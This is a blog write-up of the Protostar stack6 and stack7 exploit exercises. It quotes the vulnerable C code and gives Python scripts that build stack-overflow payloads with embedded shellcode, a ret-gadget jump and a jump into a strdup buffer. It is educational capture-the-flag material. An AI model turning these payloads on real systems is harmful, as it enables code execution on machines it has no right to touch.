 ```yaml
---
layout: post
title:  "Protostar Exploit Exercises: Stacks Part Three"
---
```


## [stack6](https://exploit-exercises.com/protostar/stack6/)

>###About
>
>Stack6 looks at what happens when you have restrictions on the return address.
>
>This level can be done in a couple of ways, such as finding the duplicate of the payload (objdump -s) will help with this), or ret2libc, or even return orientated programming.
>
>It is strongly suggested you experiment with multiple ways of getting your code to execute here.

Let's have a look at a excerpt from the code.

{% highlight c %}
void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}
{% endhighlight %}

In [my previous post]({% post_url 2016-01-11-protostar-part-two %}), I
used a  return address which  pointed to  somewhere on the  stack (the
stack  in  linux  is  usually  located  around  0xbffff000).  In  this
challenge, that's  no longer  possible since  the function  checks the
return address  & quits if the  address we've provided is  pointing to
somewhere on the stack.

## ROP-solution: Return oriented halting

Even though the C-code does not allow us to jump into our buffer,
there's no protection beyond that point. So what if we jumped to a location,
that jumps to a location?

![Return deeper]({{ site-url }}/assets/post_images/protostar_part3_go_deeper.png)

{% highlight python %}
# shellcode.py
from struct import pack

ret    = pack('L', 0x08048508)
buffer = pack('L', 0xbffff76c)
# https://www.exploit-db.com/exploits/37289/
shellcode = '\x31\xc0\x50\x68\x68\x61\x6c'+\
    '\x74\x68\x69\x6e\x2f\x2f\x68\x2f\x2f'+\
    '\x73\x62\x89\xe3\x50\x89\xe2\x53\x89'+\
    '\xe1\xb0\x0b\xcd\x80'

# esp = 0xbffff7bc
# buffer = 0xbffff76c
padding = "A" * (0xbffff7bc-0xbffff76c - len(shellcode))

payload = shellcode + padding + ret + buffer

print(payload)
{% endhighlight %}

`python shellcode.py > shellcode`

All we need to do is find a location *somewhere* in memory that 
holds a `ret` instruction. 

So when the `ret` in `getpath` executes, 4 bytes are popped of the stack
into eip & provided that eip is now pointing at another `ret` instruction,
another 4 bytes are popped of the stack & into eip. Right?

![Yep]({{ site-url }}/assets/post_images/protostar_part3_quite_right.png)

Right.

*note: The `pop` instruction increments the stack-pointer by 4, so we
 need to place the next return address after our initial one.*

There you have it. I might revisit this challenge with the ret2libc
solution later but for now - I've been unable to find the
system-function loaded in via libc in the executable. Looking for it
in gdb only yields `__libc_system`.

![Frowntown]({{ site-url }}/assets/post_images/protostar_part3_no_system.png)

* * *

## [stack7](https://exploit-exercises.com/protostar/stack7/)

> Stack6 introduces return to .text to gain code execution.
>
>The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

The `getpath` function is back, and this time... it's personal.

{% highlight c %}
char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}
{% endhighlight %}

strdup returns the address of the allocated string in the eax register.

We can get around the return-address check if we jump to the buffer
allocated by strdup. Very much like the previous challenge, I used gdb
to set a breakpoint at the `ret` instruction in getpath, took note of the 
following states:

+ The returned address from strdup stored in eax

+ The value of esp before the `ret` instruction executed.

+ The address of the buffer

{% highlight python %}
from struct import pack

shellcode = '\x31\xc0\x50\x68\x68\x61\x6c\x74'+\
    '\x68\x69\x6e\x2f\x2f\x68\x2f\x2f\x73\x62'+\
    '\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b'+\
    '\xcd\x80'
payload = shellcode +\
    'A'*(0x7bc-0x76c - len(shellcode)) +\
    pack('L', 0x804a008)

print(payload)
{% endhighlight %}

![Success]({{ site-url }}/assets/post_images/protostar_part3_ez_stack7.png)

![Happy]({{ site-url }}/assets/post_images/happy_zizek.jpg)

Now onto the Format challenges! :D

Thanks for reading!


